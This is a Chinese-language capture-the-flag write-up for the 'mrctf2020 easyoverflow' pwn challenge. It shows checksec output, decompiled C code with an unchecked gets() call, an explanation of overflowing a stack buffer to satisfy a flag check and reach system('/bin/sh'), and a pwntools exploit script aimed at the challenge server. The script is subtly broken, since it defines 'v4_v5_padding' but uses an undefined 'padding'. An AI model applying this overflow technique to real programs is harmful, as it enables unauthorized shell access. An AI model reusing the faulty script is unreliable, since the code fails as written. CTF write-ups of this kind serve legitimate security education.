 ```yaml
---
author: 
  name: Zephyr
title: mrctf2020 easyoverflow
date: 2022-4-6 18:02:23
permalink: /pages/2e1547494524d1ab
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# mrctf2020 easyoverflow

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/mrctf2020_easyoverflow/mrctf2020_easyoverflow'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-70h]
  __int64 v5; // [rsp+30h] [rbp-40h]
  __int64 v6; // [rsp+38h] [rbp-38h]
  __int64 v7; // [rsp+40h] [rbp-30h]
  __int64 v8; // [rsp+48h] [rbp-28h]
  __int64 v9; // [rsp+50h] [rbp-20h]
  __int64 v10; // [rsp+58h] [rbp-18h]
  __int16 v11; // [rsp+60h] [rbp-10h]
  unsigned __int64 v12; // [rsp+68h] [rbp-8h]

  v12 = __readfsqword(0x28u);
  v5 = 7376685493371762026LL;
  v6 = 7440000900169689920LL;
  v7 = 0LL;
  v8 = 0LL;
  v9 = 0LL;
  v10 = 0LL;
  v11 = 0;
  gets(&v4, argv);
  if ( !(unsigned int)check((__int64)&v5) )
    exit(0);
  system("/bin/sh");
  return 0;
}
```

check函数如下：

```c
signed __int64 __fastcall check(__int64 a1)
{
  int i; // [rsp+18h] [rbp-8h]
  int v3; // [rsp+1Ch] [rbp-4h]

  v3 = strlen(fake_flag);
  for ( i = 0; ; ++i )
  {
    if ( i == v3 )
      return 1LL;
    if ( *(_BYTE *)(i + a1) != fake_flag[i] )
      break;
  }
  return 0LL;
}
```

## 思路分析

1. 目前信息：

   - main函数存在溢出点
   - check检查若v5!=fake_flag则程序退出
   - Canary found
   - NX enabled
   - PIE enabled
2. 思路：
   - 输入点在v4，用v4溢出修改v5为fake_flag的值就可获得shell

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/mrctf2020_easyoverflow/mrctf2020_easyoverflow'
io = remote('node4.buuoj.cn', 25009)
# io = process(pwnfile)
elf = ELF(pwnfile)
v4_v5_padding = 0x30
payload = flat(['a'*padding, 'n0t_r3@11y_f1@g'])
io.sendline(payload)
io.interactive()
```

